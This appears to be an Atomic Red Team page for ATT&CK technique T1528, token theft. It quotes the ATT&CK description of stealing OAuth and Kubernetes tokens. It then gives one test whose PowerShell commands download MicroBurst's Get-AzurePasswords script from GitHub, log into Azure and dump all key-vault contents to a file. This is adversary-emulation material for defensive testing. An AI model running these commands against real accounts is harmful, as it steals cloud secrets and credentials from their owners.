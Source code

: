 # T1528 - Steal Application Access Token
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1528)
<blockquote>Adversaries can steal application access tokens as a means of acquiring credentials to access remote systems and resources.

Application access tokens are used to make authorized API requests on behalf of a user or service and are commonly used as a way to access resources in cloud and container-based applications and software-as-a-service (SaaS).(Citation: Auth0 - Why You Should Always Use Access Tokens to Secure APIs Sept 2019) OAuth is one commonly implemented framework that issues tokens to users for access to systems. Adversaries who steal account API tokens in cloud and containerized environments may be able to access data and perform actions with the permissions of these accounts, which can lead to privilege escalation and further compromise of the environment.

In Kubernetes environments, processes running inside a container communicate with the Kubernetes API server using service account tokens. If a container is compromised, an attacker may be able to steal the container’s token and thereby gain access to Kubernetes API commands.(Citation: Kubernetes Service Accounts)

Token theft can also occur through social engineering, in which case user action may be required to grant access. An application desiring access to cloud-based services or protected APIs can gain entry using OAuth 2.0 through a variety of authorization protocols. An example commonly-used sequence is Microsoft's Authorization Code Grant flow.(Citation: Microsoft Identity Platform Protocols May 2019)(Citation: Microsoft - OAuth Code Authorization flow - June 2019) An OAuth access token enables a third-party application to interact with resources containing user data in the ways requested by the application without obtaining user credentials. 
 
Adversaries can leverage OAuth authorization by constructing a malicious application designed to be granted access to resources with the target user's OAuth token.(Citation: Amnesty OAuth Phishing Attacks, August 2019)(Citation: Trend Micro Pawn Storm OAuth 2017) The adversary will need to complete registration of their application with the authorization server, for example Microsoft Identity Platform using Azure Portal, the Visual Studio IDE, the command-line interface, PowerShell, or REST API calls.(Citation: Microsoft - Azure AD App Registration - May 2019) Then, they can send a [Spearphishing Link](https://attack.mitre.org/techniques/T1566/002) to the target user to entice them to grant access to the application. Once the OAuth access token is granted, the application can gain potentially long-term access to features of the user account through [Application Access Token](https://attack.mitre.org/techniques/T1550/001).(Citation: Microsoft - Azure AD Identity Tokens - Aug 2019)

Application access tokens may function within a limited lifetime, limiting how long an adversary can utilize the stolen token. However, in some cases, adversaries can also steal application refresh tokens(Citation: Auth0 Understanding Refresh Tokens), allowing them to obtain new access tokens without prompting the user.  

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Azure - Dump All Azure Key Vaults with Microburst](#atomic-test-1---azure---dump-all-azure-key-vaults-with-microburst)


<br/>

## Atomic Test #1 - Azure - Dump All Azure Key Vaults with Microburst
Upon successful execution of this test, the names, locations, and contents of key vaults within an Azure account will be output to a file.
See - https://www.netspi.com/blog/technical/cloud-penetration-testing/a-beginners-guide-to-gathering-azure-passwords/

**Supported Platforms:** Iaas:azure


**auto_generated_guid:** 1b83cddb-eaa7-45aa-98a5-85fb0a8807ea





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | |
| password | Azure AD password | string | T1082Az|
| output_file | File to dump results to | string | $env:temp&#92;T1528Test1.txt|
| subscription_id | Azure subscription id to search | string | |


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
import-module "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-AzureRmAccount -Credential $Credential
Get-AzurePasswords -subscription '#{subscription_id}' > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -force -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: The Get-AzurePasswords script must exist in PathToAtomicsFolder\..\ExternalPayloads.
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://raw.githubusercontent.com/NetSPI/MicroBurst/c771c665a2c71f9c5ba474869cd1c211ebee68fd/AzureRM/Get-AzurePasswords.ps1" -outfile "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"
```
##### Description: The Azure RM module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name AzureRM -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AzureRM -Force -allowclobber
```
##### Description: The Azure module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name Azure -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name Azure -Force -allowclobber
```




<br/>
